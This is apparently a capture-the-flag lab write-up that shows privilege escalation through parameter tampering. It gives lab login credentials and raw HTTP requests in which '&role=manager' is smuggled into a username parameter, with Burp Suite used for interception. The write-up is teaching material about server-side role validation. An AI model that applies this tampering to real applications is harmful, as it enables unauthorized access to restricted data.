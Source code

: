 # Challenge: Bad Teacher Strike Again (Role Manipulation)

This challenge explores a scenario involving role-based access control (RBAC) failure, highlighting how insufficient server-side validation can lead to unauthorized privilege escalation.

## Steps to Reproduce:

### 1. **Login**
Use the following credentials to log in:
- **Username**: `s12345`
- **Password**: `password`

### 2. **Intercept and Modify Profile Request**
- Use **Burp Suite** to intercept the profile view request.

### 3. **Parameter Tampering and Role Escalation**
> Get the request for Nicholas Lim and intercept it. 
- Modify the intercepted request as follows:
  - Replace the username parameter with: `p5678901&role=manager`

- The request will look like this

> Before
```http
GET /challenges/bad-teacher-again/manage?username=p5678901 HTTP/1.1
Host: mimosadism.dmit.local
Cookie: JSESSIONID=917D098292B00FF36D2657E91A7BEE7E
Sec-Ch-Ua: " Not A;Brand";v="99", "Chromium";v="104"
X-Csrf-Token: e4b35808-dc11-496e-a3b6-ccca260a6fdf
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/104.0.5112.102 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Accept: */*
X-Requested-With: XMLHttpRequest
Sec-Ch-Ua-Platform: "Windows"
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://mimosadism.dmit.local/challenges/bad-teacher-again
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Connection: close

```


> After

```http
GET /challenges/bad-teacher-again/manage?username=p5678901&role=manager HTTP/1.1
Host: mimosadism.dmit.local
Cookie: JSESSIONID=917D098292B00FF36D2657E91A7BEE7E
Sec-Ch-Ua: " Not A;Brand";v="99", "Chromium";v="104"
X-Csrf-Token: e4b35808-dc11-496e-a3b6-ccca260a6fdf
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/104.0.5112.102 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Accept: */*
X-Requested-With: XMLHttpRequest
Sec-Ch-Ua-Platform: "Windows"
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://mimosadism.dmit.local/challenges/bad-teacher-again
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Connection: close
```





### 4. **Outcome**
By appending `&role=manager` to the parameter, the application demonstrates an instance of RBAC failure where user roles are not validated on the server side. This allows for unauthorized access to restricted or administrative content.

## Summary
This challenge highlights:
- A critical RBAC implementation flaw.
- How lack of server-side validation for roles can enable privilege escalation.

---
### Tools Used:
- **Burp Suite**

### Key Concepts:
- **Role-Based Access Control (RBAC)**
- **Parameter Tampering**
- **Privilege Escalation**

## Notes:
Ensure that adequate server-side validations are implemented to prevent such vulnerabilities.

---
